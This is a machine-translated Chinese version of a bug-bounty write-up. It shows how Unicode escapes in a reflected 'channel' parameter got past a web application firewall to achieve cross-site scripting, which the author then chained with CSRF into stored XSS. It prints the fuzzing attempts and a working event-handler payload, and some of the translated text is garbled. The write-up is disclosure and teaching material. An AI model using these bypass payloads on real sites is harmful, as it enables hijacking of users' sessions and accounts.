




# Unicode vs WAF — XSS WAF 旁路。

> 原文：<https://infosecwriteups.com/unicode-vs-waf-xss-waf-bypass-128cd9972a30?source=collection_archive---------0----------------------->

嗨，读者们，

在第一个**开斋节，穆巴拉克**向所有人。愿真主在这神圣的时刻带给你快乐、幸福、和平和繁荣。在这个快乐的开斋节，祝你和你的家人快乐！**T3【艾德慕】T4！因此，在这个神圣的时刻，我想让我们分享我的一个发现，作为开斋节的奖励😜！**

从标题中你可能知道这是一篇关于 XSS 晶片旁路使用 **UNICODE** 的文章。因此，让我们给你一个关于我正在测试的应用程序的小想法。有一个选项叫做**保存以备后用**它保存你账户中的项目以备后用。该请求看起来像是:-



我们的目标应用程序**保存为以后的**选项请求

如果用户通过了正确的身份验证，那么这个 post 请求将在用户帐户中保存项目以备后用，如果用户没有通过正确的身份验证，那么它将只返回一些值。因此，我手动模糊处理参数，并注意到**通道**参数值在经过身份验证的&和未经身份验证的场景中都反映在响应体中，而没有正确转义。我发送了一个通道参数值类似于**" channel ":" XSS \ "><"**的请求，响应是:-

```
<a class="link nc-text-regular nc-blue js-movetocart" data-giftitemid="<ID>" data-skuid="<ID>" data-itemnumber="<ID>"
                     data-productid="<ID>" data-channel="xss"><" data-quantity="1"
                     data-isbundleitem="false" role="link" tabindex="0" aria-label="label">Move to cart</a>
```

我们输入的值在 ***< a >*** 标记内，我们可以将其转义，因为**引号&小于/大于**符号没有被正确过滤。所以我认为我有很多方法在这里做 XSS，直到我输入**" channel ":" XSS \ " onclick = \ " alert(1)"**，得到的回应是:-



WAF！WAF！WAF！！！🤕

因此有一个晶片在适当位置。为了绕过它，我开始模糊，结果是:-

```
"channel":"xss\"onclick=\"alert(1)" ==> WAF
"channel":"xss\"xss=\"alert(1)" ==> WAF
"channel":"xss\"onclick=\"alert(1)" ==> WAF
"channel":"xss\"xss=\"xxx(1)" ==> No WAF
```

所以我尝试创建一个标签，而不是在**<>**标签中添加事件属性，我输入**" channel ":" XSS \ "><XSS>test "**，得到的响应是:-

```
<a class="link nc-text-regular nc-blue js-movetocart" data-giftitemid="<ID>" data-skuid="<ID>" data-itemnumber="<ID>"
                     data-productid="<ID>" data-channel="xss">test" data-quantity="1"
                     data-isbundleitem="false" role="link" tabindex="0" aria-label="label">Move to cart</a>
```

所以它也删除了看起来像标签的上下文。所以我们没有创建标签的优势。所以我们唯一的办法就是绕过 WAF 使用**<>**标签中的事件属性。所以我试着用[**html-event-attributes . txt**](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/xss/html-event-attributes.txt)**by[**fuzz db**](https://github.com/fuzzdb-project/fuzzdb)做了一个 bruteforce，看看有没有事件没有被 WAF 屏蔽，没有得到什么有趣的东西。然后我考虑了一下 unicode，输入了一个随机的 unicode，看看它是否能解码，结果它把 unicode 解码成了原来的字符。所以现在我又开始玩 **unicode+events** ，结果是:-**

```
"channel":"xss\"\u003E\u003Cxss\u003Etest" ==> data-channel="xss"><xss>test"
"channel":"xss\"xss=\"co\u006efirm(domain)" ==> No WAF
"channel":"xss\"onc\u006Cick=\"co\u006efirm(domain)" ==> HTTP/1.1 403 Forbidden
```

**所以我们有了新的优势，也有了新的问题。**

*   **优势是我们现在可以使用 unicodes 创建 HTML 标签。**
*   **缺点是，即使在使用 unicodes 之后，当我们添加一个事件 **onc\u006Cick** 时，我们会得到一个新的错误 **HTTP/1.1 403 Forbidden** 。**

**因此，我再次从[**html-event-attributes . txt**](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/xss/html-event-attributes.txt)**+Unicode**制作了一个单词表，并且我得到了**on mous \ u 0045 leave**&**ond \ u 0072 ag**events，给出了 **HTTP/1.1 200 OK** ，我们还可以创建 HTML 标签。所以我做了最后一次装载**

```
xss\"\u003E\u003Ch1  onmous\u0045leave=co\u006efirm(domain)\u003ECome to Me\u003C/h1\u003E\u003Cbr\u003E\u003C!--
```

****响应正文为:-****

```
<a class="link nc-text-regular nc-blue js-movetocart" data-giftitemid="<ID>" data-skuid="<ID>" data-itemnumber="<ID>"
                     data-productid="<ID>" data-channel="xss"><h1  onmouseleave=confirm(domain)>come to me</h1><br><!--" data-quantity="1"
                     data-isbundleitem="false" role="link" tabindex="0" aria-label="label">Move to cart</a>
```

****

**未经验证的用户的基于帖子的 XSS**

**把鼠标指针放在**里，靠近我**然后离开&吊杆😎🤗**

**由于这是一个 POST 请求，并且没有 CSRF 保护，所以我为认证用户链接了 **CSRF + XSS = P2 存储的 XSS** 😎。**

****

****CSRF + XSS = P2 为认证用户存储 XSS** 😎**

**感谢阅读。看看我的 [**YouTube 频道**](https://www.youtube.com/channel/UCaFDPNZiwrzHjaV3rpyP64g) 我分享的一些 POC。**

****跟我来:-****

**[](https://twitter.com/prial261) [## prial Islam (@prial261) | Twitter

### prial Islam 的最新推文(@prial261)。一个热衷于破坏安全的少年😉😉😉。帕布纳…

twitter.com](https://twitter.com/prial261) [](https://www.facebook.com/prial261) [## 普里阿勒·伊斯兰·汗

### Prial Islam Khan 在脸书。加入脸书，与 Prial Islam Khan 和您可能认识的其他人联系。脸书给…

www.facebook.com](https://www.facebook.com/prial261) 

**欢呼**😋😉**